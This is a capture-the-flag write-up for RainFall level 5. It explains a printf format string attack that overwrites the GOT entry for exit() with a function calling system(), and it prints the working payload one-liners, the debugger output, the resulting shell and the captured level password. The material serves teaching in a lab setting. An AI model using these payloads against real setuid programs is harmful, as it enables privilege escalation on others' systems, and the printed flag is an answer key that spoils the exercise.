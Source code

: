 # Level 5

## Vulnerability

Global Offset Table Exploit + printf string vulnerability

## Context

```
level5@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
level5@RainFall:~$ ./level5
hello
hello
```
We have a binary that prints input from the stdin.

## Solution

Let's take a look at the binary in gdb. <br/>
We can see here that ```level5``` makes a call to ```main()```, which makes a call to a function ```n()```. <br/>
There is also a function ```o()``` which is not called. 
```
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   %ebp
   0x08048505 <+1>:	mov    %esp,%ebp
   0x08048507 <+3>:	and    $0xfffffff0,%esp
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave
   0x08048510 <+12>:	ret
```
Let's take a deeper look a ```n()```. <br/>
We can see two function calls in ```n()```. <br/>
One is to ```fgets()```, which is protected against buffer overflow attacks. <br/>
The other is to ```printf()```, which is vulnerable to string format exploits. <br/>
The function then calls ```exit()```.
```
(gdb) disas n
Dump of assembler code for function n:
[...]
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
[...]
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
[...]
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```
In ```o()```, we can see a call to ```system()```, which launches a new shell. 
```
(gdb) disas o
Dump of assembler code for function o:
[...]
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
```
Why are all these functions ```@plt```? <br/> <br/>
~ A little background: ~ <br/>
A ```PLT``` (or Procedure Linkage Table) is a special section in compiled programs which consists of many jump instructions to external  <br/>
functions / shared libraries (for example, libc functions). These jump instructions jump to the ```GOT``` (or Global Offset Table),  <br/>
which contains the actual function address. <br/>
The PLT is read-only, but the GOT can be written to. <br/>
The execution flow of the program can be controlled by overwriting one of the GOT's function addresses. <br/> <br/>
So... what's the plan? <br/>
We can leverage ```printf``` in a format string attack to replace the address of ```exit()``` with the address of ```o()```, <br/>
which will then call ```system``` to launch a new shell. <br/> <br/> 
Let's locate the addresses of ```exit()``` and ```o()```. <br/> 
```
(gdb) info functions
All defined functions:

[...]
0x080483d0  exit@plt
0x080484a4  o
```
Unfortunately, the real address of ```exit()``` is in the GOT. Let's looks there. 
```
level5@RainFall:~$ objdump -R level5 | grep exit
08049838 R_386_JUMP_SLOT   exit
```
So the address of ```exit()``` is 0x08049838, and the address of ```o()``` is 0x080484a4.<br/><br/>

Just like in level3, let's check our buffer position with a ```printf()``` string format exploit.
```
level5@RainFall:~$ python -c 'print "AAAA %x %x %x %x %x %x %x"' | ./level5
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```
We can see our buffer "AAAA" in the 4th position on the stack as 41414141. <br/>
So let's replace "AAAA" with the address of ```exit()``` (in little endian). <br/><br/>
The next step is to overwrite ```exit()``` by ```o()```, using the the ```%n``` modifier. <br/>
For the ```%n``` modifier, we need the number of bytes to write. <br/>
"0x080484a4" in decimal is "134513828" (minus the exit GOT address [4 bytes]). <br/><br/>
Here is what our string attack will look like:
```
"exit GOT address" + "134513828 - 4 bytes" + "%4$n"
python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"' 
```
Let's try it out!
```
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"' ; cat -) | ./level5
[You will find are in an infinite print loop. Type anything and press "enter"]
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## Recreate Exploited Binary

As user ```level6```, in ```/tmp```, create and compile ```level5_source.c```.
```
level6@RainFall:~$ cd /tmp
level6@RainFall:/tmp$ gcc level5_source.c -fno-stack-protector -Wno-format-security -o level5_source
```
Edit permissions including suid, then move the binary to home directory.
```
level6@RainFall:/tmp$ chmod u+s level5_source
level6@RainFall:/tmp$ chmod +wx ~; mv level5_source ~
```
Exit back to user ```level5```, then run the binary. <br/>
Notes: 
- Our new address for ```exit()``` is located at 0x0804a014 (but we still print the address in little endian).
- Our new address for ```o()``` is located at 0x080484c4 => 134513860 (minus the exit GOT address [4 bytes])
```
level6@RainFall:/tmp$ exit
exit
level5@RainFall:~$ (python -c 'print "\x14\xa0\x04\x08" + "%134513856d" + "%4$n"' ; cat -) | /home/user/level6/level5_source
[... infinite print loop ...]
cat /home/user/level6/.pass
```
